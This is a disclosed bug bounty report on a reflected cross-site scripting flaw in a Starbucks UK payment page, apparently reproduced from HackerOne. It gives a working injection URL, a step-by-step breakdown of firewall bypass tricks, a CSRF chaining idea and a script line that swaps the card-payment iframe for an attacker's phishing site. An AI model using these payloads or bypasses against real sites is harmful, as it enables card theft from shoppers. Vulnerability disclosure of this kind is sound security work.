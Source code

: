 # XSS on https://www.starbucks.co.uk (can lead to credit card theft) (/shop/paymentmethod)

## Report Details
- **Report ID**: 227486
- **URL**: https://hackerone.com/reports/227486
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-05-10T13:28:32.386Z
- **Disclosed**: 2018-05-22T21:50:20.339Z

## Reporter
- **Username**: bayotop
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
Hi,

**Steps to reproduce:**

0. Run Firefox (these steps *require* Firefox).
1. Log in on https://www.starbucks.co.uk/account/signin
2. Go to https://www.starbucks.co.uk/shop/card/egift and add any card to your basket.
3. Go to https://www.starbucks.co.uk/shop/paymentmethod?==%u0022a%20onclick=confirm(/-/g+this.ownerDocument.domain)%20id=%u0022checkoutButton
4. After the page finishes loading click the "Checkout" title.
5. A confirmation prompt is shown showing the current domain.

**Note** that these steps can be automated due to missing CSRF protection on the "Add to Basket" option. Effectively, all a user has to do is to load a page which is under attacker's control. I set up an example: http://bayo.rocks/f42e32a3-9e9a-4be0-8cfb-4b5d766b97d0/sbux_poc.html (this link is private).

**Description:**

I'll explain what is going on and why this works. First, take a look at https://www.starbucks.co.uk/shop/card/egift?reflected 
Looking at the source code you see the whole URL is reflected in a link tag. 

```html
<link rel="canonical" href="https://www.starbucks.co.uk/shop/card/egift?reflected" />
```
Trying to inject malicious code seems to be blocked by a WAF. However, all checks can be eventually bypassed to inject arbitrary attributes, e.g. https://www.starbucks.co.uk/shop/card/egift?%u0022%20id=%u0022injected results in: 

```html
<link rel="canonical" href="https://www.starbucks.co.uk/shop/card/egift?" id="injected" />
```

This works on every page (!) site-wide. However, I am not aware of any technique to get arbitrary JS execution at this point. However, there is a handy [script](https://www.starbucks.co.uk/static/resource/shop_js/676938998_en-GB) loaded into the page that does the following:

```javascript
$("#checkout").bind("click", function(e) {
    $("#checkoutButton").trigger("click")
});
```

You see where this is going. In case I find a page that has an element with the id **checkout**, I can inject **id="checkoutButton" onclick="malicous_js"** to the above link element and the injected JS will be executed once the **checkout** element is clicked. 

Exactly such a page is https://www.starbucks.co.uk/shop/paymentmethod (requires authentication). You can see the credit card form being loaded on this page. Luckily, it is loaded from a different origin so the form data can't be read using the injected JS. However, a determined attacker can easily set up a exact-looking page and change the iframe's content to steal the victim's credit card information:

```javascript
document.getElementById('payment-method-iframe').contentWindow.location.href = 'https://sbuxphishingsiteunderattackerscontrol.com';
```

**Note** that the **checkout** element is actually **<body>** so there is plenty of space where the user can click to execute the malicious JS.

Take into consideration that his could work in both IE and Chrome and the only thing preventing the PoC are the browsers' built in XSS protections. I am working on a bypass, but unfortunately I am not quite there, yet.

To sum up, I'll breakdown the injection from the PoC (==%u0022a%20onclick=confirm(/-/g+this.ownerDocument.domain)%20id=%u0022checkoutButton):

1. **==** -> used to trick the [query string parsing code](https://www.starbucks.co.uk/static/resource/shop_js/676938998_en-GB) that is calling decodeURIcomponent(). Otherwise decodeURIcomponent("%u0022") throws an exception resulting in the "checkout bind" never being called.
2. **%u0022** -> bypasses the WAF that is causing a 404 when the query contains "%22".
3. **a%20onclick=** -> allows to inject any on*= handlers. Otherwise a server error is returned when a blacklisted onhandler is followed by an equals sign in the query.
4. **confirm(/-/g** -> the WAF seems to dislike confirm(), alert() and so on. Adding a '/' after the left bracket makes him happy again.
5. **+this.ownerDocument.domain)** -> the WAF doesn't like "document".

**Impact**

As mentioned, an attacker can easily trick users into disclosing their credit data. The victims might not even realize that they were tricked and their privacy was compromised. All they know is they entered their data on "https://starbucks.co.uk" as usual. Note that other "typical" possible ways to compromise the victims using XSS (BeEF hooks etc.) are, of course, still applicable.

**Recommendation**

Correctly encode user input before rendering it back into the page. You shouldn't rely only on your WAF / custom blacklisting to protect you. Consider auditing yout site and adding CSRF protection to actions like "Add to Basket". You might also consider fixing the bypasses I mentioned. 

## Attachments
No attachments
